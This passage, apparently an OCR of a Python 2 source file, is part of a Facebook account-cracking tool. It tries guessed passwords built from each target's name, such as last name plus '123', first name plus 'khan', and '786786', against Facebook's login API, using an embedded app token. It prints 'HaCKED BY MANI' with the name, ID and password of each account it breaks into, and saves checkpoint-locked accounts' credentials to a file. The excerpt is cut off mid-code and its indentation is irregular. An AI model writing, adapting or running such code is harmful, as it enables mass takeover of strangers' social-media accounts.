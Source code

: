 				               cek = open("out/super_cp.txt", "a")
				               cek.write("ID:" +user+ " Pw:" +pass2+"\n")
				               cek.close()
				               cekpoint.append(user+pass2)								
				           else:											
					       pass3 = b['last_name']+'123'										
					       data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")										
					       q = json.load(data)										
					       if 'access_token' in q:	
						       x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                       z = json.loads(x.text)
						       print '\x1b[1;96m[  ✓  ] \x1b[1;92mHaCKED BY MANI💉'								
						       print '\x1b[1;96m[•⚔•] \x1b[1;92mName \x1b[1;92m    ✯ \x1b[1;92m' + b['name']									
						       print '\x1b[1;96m[•⚔•] \x1b[1;92mID \x1b[1;92m      ✯ \x1b[1;92m' + user							
						       print '\x1b[1;96m[•⚔•] \x1b[1;92mPassword \x1b[1;92m✯ \x1b[1;92m' + pass3 + '\n'									
						       oks.append(user+pass3)
                                               else:
			                               if 'www.facebook.com' in q["error_msg"]:
				                           print '\x1b[1;96m[ ❥ ] \x1b[1;96mCP'
				                           print '\x1b[1;96m[•⚔•] \x1b[1;96mName \x1b[1;96m    ✯ \x1b[1;97m' + b['name']
				                           print '\x1b[1;96m[•⚔•] \x1b[1;96mID \x1b[1;96m      ✯ \x1b[1;97m' + user
				                           print '\x1b[1;96m[•⚔•] \x1b[1;96mPassword \x1b[1;96m✯ \x1b[1;97m' + pass3 + '\n'
				                           cek = open("out/super_cp.txt", "a")
				                           cek.write("ID:" +user+ " Pw:" +pass3+"\n")
				                           cek.close()
				                           cekpoint.append(user+pass3)									
					               else:										
						           pass4 = b['first_name'] + 'khan'											
			                                   data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			                                   q = json.load(data)												
			                                   if 'access_token' in q:		
						                   x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                                   z = json.loads(x.text)
				                                   print '\x1b[1;96m[  ✓  ] \x1b[1;92mHaCKED BY MANI💉'											
				                                   print '\x1b[1;96m[•⚔•] \x1b[1;92mName \x1b[1;92m    ✯ \x1b[1;92m' + b['name']											
				                                   print '\x1b[1;96m[•⚔•] \x1b[1;92mID \x1b[1;92m      ✯ \x1b[1;92m' + user											
				                                   print '\x1b[1;96m[•⚔•] \x1b[1;92mPassword \x1b[1;92m✯ \x1b[1;92m' + pass4 + '\n'											
				                                   oks.append(user+pass4)
                                                           else:
			                                           if 'www.facebook.com' in q["error_msg"]:
				                                       print '\x1b[1;96m[ ❥ ] \x1b[1;96mCp'
				                                       print '\x1b[1;96m[•⚔•] \x1b[1;96mName \x1b[1;96m    ✯ \x1b[1;97m' + b['name']
				                                       print '\x1b[1;96m[•⚔•] \x1b[1;96mID \x1b[1;96m      ✯ \x1b[1;97m' + user
				                                       print '\x1b[1;96m[•⚔•] \x1b[1;96mPassword \x1b[1;96m✯ \x1b[1;97m' + pass4 + '\n'
				                                       cek = open("out/super_cp.txt", "a")
				                                       cek.write("ID:" +user+ " Pw:" +pass4+"\n")
				                                       cek.close()
				                                       cekpoint.append(user+pass4)					
					                           else:									
						                       pass5 = '786786'							
						                       data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")								
						                       q = json.load(data)								
						                       if 'access_token' in q:	
						                               x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                                               z = json.loads(x.text)
						                               print '\x1b[1;96m[  ✓  ] \x1b[1;92mHaCKED BY MANI💉'						
						                               print '\x1b[1;96m[•⚔•] \x1b[1;92mName \x1b[1;92m    ✯ \x1b[1;92m' + b['name']							
						                               print '\x1b[1;96m[•⚔•] \x1b[1;92mID \x1b[1;92m      ✯ \x1b[1;92m' + user					